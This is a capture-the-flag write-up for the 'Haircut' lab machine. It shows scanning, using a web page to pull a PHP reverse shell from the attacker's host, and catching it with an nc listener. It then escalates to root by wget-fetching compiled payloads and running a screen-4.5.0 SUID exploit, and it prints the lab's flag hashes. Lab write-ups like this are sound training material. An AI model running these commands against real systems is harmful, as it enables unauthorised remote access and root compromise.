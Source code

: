 <center><h1>Haircut</h1></center>
<br>

First start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-26 16:37 UTC
Nmap scan report for 10.10.10.24
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```
Only a couple ports to work with. Checking out port 80 we are greeted with a basic web page with a photo.

<center><img src="/htb/haircut/home.png"></center>
<br>
Running a gobuster we find a couple of pages.
```
# gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20    
===============================================================                                                                               
Gobuster v3.0.1                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                               
===============================================================                                                                               
[+] Url:            http://10.10.10.24                                                                                                        
[+] Threads:        20                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                              
[+] Status codes:   200,204,301,302,307,401,403                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                            
[+] Extensions:     txt,php                                                                                                                   
[+] Timeout:        10s                                                                                                                       
===============================================================                                                                               
2019/09/26 16:46:56 Starting gobuster                                                                                                         
===============================================================                                                                               
/uploads (Status: 301)                                                                                                                        
/exposed.php (Status: 200)                                                                                                              
```
The <b>/uploads</b> directory redirects us to a 403 so we cant do much there right now. The <b>/exposed.php</b> is the one that we want. In the top left we see a button that prints out a <b>test.html</b> file from the localhost.

<center><img src="/htb/haircut/button.png"></center>
<br>
I decided to try and see if I can interact with my attacking machine. To do this I set up a <b>python SimpleHTTPServer</b> on my attacking machine so I could attempt to transfer the a reverse shell over.
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

# http://10.10.14.21/shell.php -o uploads/shell.php
```
Now I set up my <b>nc</b> listener and then triggered the shell by navigating to <b>http://10.10.14.21/uploads/shell.php</b>. If we check the listener then we will see that a shell has opened
```
# nc -lvnp 9999                                                                                                  
listening on [any] 9999 ...                                                                                                                   
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.24] 43682                                                                                   
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux                                     
 19:45:58 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00                                                                                 
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                         
/bin/sh: 0: can't access tty; job control turned off                                                                                          
$
```
From here we can grab the user flag
```
$ cat user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
```
Now for the priv esc. If we run a LinEnum script you should see the vulnerable <b>SUID</b> binary <b>screen-4.5.0</b>.
```
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at                                                                                     
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd                                                                                     
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0                                                                             
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh                                                                                       
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn                                                                                       
```
A quick google search will reveal the exploit *[here](https://www.exploit-db.com/exploits/41154)*. The problem is the exploit does not work stright away because <b>gcc</b> is broken on the box so we need to compile <b>libhax.c</b> and <b>rootshell.c</b> locally and then upload them to the box.
```
# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                        
/tmp/libhax.c: In function ‘dropshell’:

# gcc -o /tmp/rootshell /tmp/rootshell.c                                                                                        
/tmp/rootshell.c: In function ‘main’:
```
Now we need to copy <b>libhax.so</b> and <b>rootshell</b> over to the <b>/tmp</b> directory on the box. We can do this using a <b>python SimpleHTTPServer</b> again
```
$ wget 10.10.14.21:8000/rootshell                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
--2019-09-26 21:02:00--  http://10.10.14.21:8000/rootshell                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16824 (16K) [application/octet-stream]                                                                                                
Saving to: 'rootshell'                                                                                                                        

     0K .......... ......                                     100%  562K=0.03s                                                                

2019-09-26 21:02:01 (562 KB/s) - 'rootshell' saved [16824/16824]                                                                              

[+] done!                                                                                                                                     
$ wget 10.10.14.21:8000/libhax.so                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                  
--2019-09-26 21:01:48--  http://10.10.14.21:8000/libhax.so                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16136 (16K) [application/octet-stream]                                                                                                
Saving to: 'libhax.so'                                                                                                                        

     0K .......... .....                                      100%  521K=0.03s                                                                

2019-09-26 21:01:48 (521 KB/s) - 'libhax.so' saved [16136/16136]                                                                              
```
Now run the exploit from earlier
```
$ bash screenroot.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
gcc: error trying to exec 'cc1': execvp: No such file or directory
gcc: error trying to exec 'cc1': execvp: No such file or directory
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```
Now we can grab the root flag
```
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
```
<br><br><br><br>
